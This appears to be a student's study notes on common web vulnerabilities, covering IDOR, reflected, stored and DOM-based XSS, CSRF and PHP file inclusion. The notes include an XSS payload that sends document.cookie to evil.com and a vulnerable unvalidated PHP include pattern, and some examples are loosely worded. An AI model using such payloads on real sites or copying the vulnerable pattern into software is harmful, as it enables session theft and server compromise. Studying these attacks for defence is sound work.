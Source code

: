 With the help of IDOR, we can: 
- Access someone else’s **profile**
- View another user’s **order history**
- Download private **documents or invoices**
- Delete or modify **other users' data**
- Escalate privileges in apps with poor validation

*Tools like BurpSuite, DevTools, Postman etc are used for IDOR*

##### **3.6 Cross-site Scripting (XSS)
It is about injecting JavaScript into webpages that runs in other users' browsers.

###### Reflected XSS:
It happens on search bars, contact forms, URLS etc.  E.g.: A link that is like `http://vulnerable.com/search?q=Vedant` might be changed into `http://vulnerable.com/search?q=<script>alert('XSS')</script>`. If the server doesn't verify the link, then the script added in the link would run. 

###### Stored XSS:
It is stored in the database and is triggered when other users are viewing that data. It can be found in comment sections, chat messages or even profile names. E.g. `<script>fetch('http://evil.com/steal?cookie='+document.cookie)</script>` would leak the cookies of every user if not checked by the server/site. 

###### DOM-Based XSS:
This method doesn't involve the server. It takes advantage of the trust between browser and server and messes the JavaScript of the browser. E.g. a code like `document.location.href
`document.write(user_input)`
`innerHTML = user_input` would allow the attacker to enter key logs of the user in a file, hence compromising passwords or other sensitive information.

![[Pasted image 20250526103738.png]]


##### **3.7 – CSRF (Cross-Site Request Forgery)**
**CSRF** is when a malicious site tricks a logged-in user into performing unwanted actions on **another site** where they’re authenticated. E.g. A website on tab 2 (malicious website) of your browser might trick the banking tab on your browser to initiate a transaction.
The reason it works is because the browser auto-sends the session cookies to the authentic website. 

If there is a `target.com` and `evil.com` then this is how CSRF works: 
![[Pasted image 20250526104156.png]]

There are various vulnerable scenarios, like changing email/password, add attacker as admin for privilege escalation, delete an account or transfer money. 

##### **3.8 File Inclusion**
File inclusion vulnerability allow an attacker to trick the server into loading r executing unauthorized files, either locally or remotely, which is why its categorized in two parts:
	1. LFI: Local File Inclusion, includes the file from the local server
	2. RFI: Remote File Inclusion, includes the file from an external server like HTTP/S

The core concept of its working is something like this:
Most PHP (and some python or JavaScript) apps use something like `<?php include($_GET['page']); ?>` 
Now if the `$_GET['page']` is not validated, the attacker can inject local or remote files in the place holder.
Example: (Thank you ChatGPT)
![[Pasted image 20250527130819.png]]

